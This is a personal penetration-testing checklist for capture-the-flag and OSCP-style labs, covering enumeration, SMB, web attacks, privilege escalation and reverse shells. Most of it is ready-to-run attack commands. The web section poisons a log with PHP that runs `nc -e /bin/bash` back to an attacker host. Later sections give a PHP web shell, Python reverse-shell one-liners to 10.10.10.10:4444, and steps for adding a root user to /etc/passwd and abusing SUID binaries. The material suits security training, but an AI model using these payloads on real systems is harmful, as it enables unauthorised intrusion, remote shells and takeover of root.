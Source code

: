 # Checklist
# Preperation

<details>
  <summary>Expand</summary>

- [ ] Find IP of the machine
	- [ ] `export IP=<MACHINE_IP>`
	- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
- [ ] Set folder structure
	- [ ] `cd ctf/`
	- [ ] `mkdir -p $MACHINE_NAME/enum`
	- [ ] `mkdir -p $MACHINE_NAME/files`
	- [ ] `touch $MACHINE_NAME/enum/users.txt`
	- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
- [ ] Set hostname in etc/hosts (if helps)

</details>


# Enumeration

<details>
  <summary>Expand</summary>

<details>
  <summary>NMAP</summary>

- [Howto](../../active-information-gathering/nmap.md)
- Copy key findings to report
- check results
- Paste to [report](templates/report.md)
- Highlight exploitables/targets	

</details>	

<details>
  <summary>Rustscan</summary>

	- Test	

</details>	
	

<details>
  <summary>enum4linux</summary>
<br />

- [ ] `enum4linux $IP` -> users, share, comon structure, server block.
	- [ ] Highlights
	- [ ] check results
	- [ ] Check SMB null session
	- [ ] system level users	

</details>	


<details>
  <summary>nmap-nse</summary>
<br />

1. [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)

</details>

<details>
  <summary>smb/netbio-ssn</summary>

	- Ports [139, 445]
	- `mkdir smb`
	- `nmap -p139,445 --script=smb-enum-shares $IP`
		- `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
		- smbclient //'IP'/qui -N
		- crackmapexec
		- mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
	- `smbmap -H $IP`
	- `smbclient --no-pass -L //$IP`
	- `smbclient --no-pass \\\\$IP\\anonymous`
	- `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
	- `smbclient //192.168.10.10/sambashare` [without variable]
	- `mget file.name` [Download file.name]
	- `smbmap -u <user> -p <PassWord> -H $IP`
	- `smbclient //'IP'/<share> -U'user'%'password'`
	- `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`	

</details>
	
<details>
  <summary>Apache Tomcat</summary>

	- Apache Tomcat [8080]
			- Read Version
			- Check URL (hints)
			- default credentials
			- mfsconsole /is it allowed?
	
</details>

<details>
  <summary>Domain</summary>

	- TODO
	
</details>

<details>
  <summary>ssl/pop3</summary>

	- TODO
	
</details>
	
<details>
  <summary>ssl/imap</summary>

	- TODO
	
</details>
	
<details>
  <summary>TOPIC</summary>

	- TODO
	
</details>
	
<details>
  <summary>	Morse code</summary>

	- Test	

</details>
	
<details>
  <summary>shellshock</summary>

- /cgi-bin
	- [ ] shellshock [Howto](../../foothold/shellshock/README.md)	
	

</details>
	
<details>
  <summary>SSH</summary>

	- hydra
		- [Howto](tools/bruteforce/ssh/hydra)
		- `curl -A "GoogleBot" http://$IP/robots.txt`
		- searchsploit
		- Port knocking
		- nmap port knock 

</details>
	

<details>
  <summary>WEB Enum</summary>
	
- Load each targetted port in browser
- export PORT=80
- `dirb http://$IP:$PORT/ -r`
- `nikto --host http://<IP> -C all` :: tool for webapp
- `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
	- HTTPS you will want to include protocol too
	- `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
	- `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
	- framework/server/service -> searchexploit
	- Check for config through URL's like
	- hostname/username/re-use etc
- LFI
    - Find vulnerability
    	- e.g `curl http://$IP:$PORT?arg=../../../../../etc/passwd`
    - Upload file
	- e.g: Upload image & inject php code.
		- Upload location (gobuster)
			- wordlist?
				- rockyou.txt -> username & password
				- /usr/share/dirb/wordlists/common.txt -> start with simple/bigger
    - Log Posining
	- <is it readable?>
		- Attemp to poision log
        	- `echo "GET <?php echo 'TEST123' ?> HTTP/1.1" | nc $IP $PORT`
		- `echo "GET <?php system('nc -e /bin/bash $ATTACKER_IP $ATTACKER_PORT'); ?> HTTP/1.1" | nc $VICTIM_IP $VICTIM_PORT`
        - Trigger to check if posioning was successful
          - `curl http://$IP:$PORT?book=../../../../../var/log/apache2/access.log`
          - This would initiate above create reverse shell.
	- Post LFI
    	- Password cracking?
        	- e.g: john hash.txt
- check for ssh keys
- check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
- vsftpd -> upload, to rce from upload file
- ftp -> anonymous and reading of those files
- source code dump or any expose?
  - function level exploits?
    - example backup file containing exploitable functions.
- RFI
	- rev shell
		- https://www.revshells.com/
			- `python -c 'import pty;pty.spawn("/bin/bash")'`
	- `linpeas.sh`
- CUPS Http `631`

- Wordpress
  - wpscan

- Drupal
  - droopescan
  - `droopescan scan -u  http://192.168.1.1/`
- Credential Discovery
  - Trying some well-known default credentials (e.g. admin:admin, admin:password, admin:root, etc.) , find default username for the software.

- Last resort
  - Metasploit (if exploit is available)

- Credential Discovery
  - Trying some well-known default credentials ( admin:admin, admin:password, admin:root)


</details>

</details>


# Privilege Escalation

<details>
	<summary>Expand</summary>

- [ ] privileges escalation
	- [ ] `sudo -l`
	- [ ] relative path exploitable?
    	- [ ] Example: `sudo /sudo_permited_location/../home/user/my_file`
	- [ ] password re-use
		- [ ] from credentials founds in enum
		- [ ] `su - <user>`
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> [interactive terminal spawned via python](../../Explain/READEME.md)
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`
		- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
	- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
	- [ ] Netstat alternative `ss -tunlp`
	- [ ] cat /etc/crontab
	- [ ] `find / -perm -u=s -type f 2>/dev/null` 
		- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
			- [ ] example
				- [ ] /usr/bin/zsh
		- [ ] Read Source Code (if any)
		- [ ] look for files owned by root grouped by user.
		- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
			- [ ] lateral machines? (not done anything like this)
			- [ ] private ip address? (not done anything)
			- [ ] web root -> any db credes?
	- [ ] Take advantage of this misconfiguration by abusing the PATH variable
	- [ ] Take advantage of misconfigured cronjob.
	- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
	- [ ] `ps ps auxwf` -> Check for any writeable
	Or,
	- [ ] `find / -type f -user root -perm /o=w | grep -v '/proc/`
	- [ ] File transfer
		- [ ] [Python http.server](../../tools/file-transfer#python-simple-http-server)
	- [ ] simple HTTP server
		- [ ] download pspy
		- [ ] Second shell -> `pspy<BIT>`
		- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
		- [ ] exploit miss-configuration
	- [ ] writeable `passwd`?
		- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
		- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
	- [ ] Privilege escalation Enum
		- [ ] `https://github.com/diego-treitos/linux-smart-enumeration` (is this allowed in OSCP?)
		- [ ] `https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS`  (is this allowed in OSCP?)
	- [ ] `kernel exploits?`
		- [ ] https://github.com/mzet-/linux-exploit-suggester
		- [ ] e.g Dirty Cow [example HowTo](practical/dirty_cow)
	- [ ] `world writable exploit`
    	- [ ] `echo "<?php system('chmod +s /usr/bin/find'); ?>" > /stuffed`
    	- [ ] Using find related exploit
        	- [ ] `find .-exec /bin/bash -p \; -quit`

</details>


# Remote Code Execution (RCE)

<details>
	<summary>Expand</summary>

- [ ] Remote Code Execution
	- [ ] `<?php system($_GET['cmd']);?>`
	- [ ] Verify RCE
		- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
		- [ ] Payload:
			- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
			- [ ] payload converter (hURL)
				- [ ] hURL -U export RHOST="$IP"; export RPORT="$PORT";python -c xxxx 
			- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
			- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
</details>


# Reverse Shell

<details>
	<summary>Expand</summary>

- [ ] Reverse Shell
	- [ ] web uploads
		- [ ] `nc - nlvp 1` `Listening on port 1`
		- [ ] Upload payload on other side, should open connection
		- [ ] check RCE section.
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python/python3 -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`

</details>
